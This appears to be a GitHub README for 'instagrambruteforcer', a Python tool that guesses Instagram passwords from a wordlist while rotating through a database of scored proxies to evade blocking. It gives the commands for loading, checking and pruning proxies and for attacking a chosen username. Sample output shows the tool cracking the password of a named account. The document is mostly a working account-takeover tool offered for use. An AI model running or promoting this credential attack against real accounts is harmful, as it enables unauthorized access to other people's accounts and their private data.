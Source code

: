 ### instagrambruteforcer
![exploit](https://github.com/DarkKnightGeeky/instagrambruteforcer/blob/main/Instagrambruteforcer.png)
## Requirements

- Python _v3.11_
- proxy list
## Proxies

The system needs a list of proxies to work. Once uploaded, proxies are saved into a database.<br/>

### Upload

Upload a list of proxies into the program. The proxy file must have a format of `ip:port`<br/>

`proxies_list.txt`

```
3.238.111.248:80
206.189.59.192:8118
165.22.81.30:34100
176.248.120.70:3128
191.242.178.209:3128
180.92.194.235:80
```

To upload a list of proxies a similar syntax must be followed.

```
python3 instagrambruteforcer.py -px <path to proxy list>
```

### Stats

This gives an insight into the health of the proxies in the database.

```
python3 instagrambruteforcer.py --stats
```

### Prune

This allows the able to get rid of proxies with a score below a given score.<br/>
It is recommended that you run the `--stats` and prune the database of proxies<br/>
who have a proxy score below `Q1`.

```
python3 instagrambruteforcer.py --prune 0.05
```

Pruning is not a requirement because the <br/>
the system will automatically learn which proxies perform poorly and stop using them.

### Usage

```
python3 instagrambruteforcer.py -u <username> -p <passlist>
```

### Execute

```
[-] Wordlist: passlist.txt
[-] Username: Lopezrita56
[-] Password: 357
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: passlist.txt
[-] Username: Lopezrita56
[-] Password: Lopez123
[-] Complete: 62.67%
[-] Attempts: 413
[-] Browsers: 145
[-] Exists: True

[!] Password Found
[+] Username: Lopezrita56
[+] Password: Lopez123
```

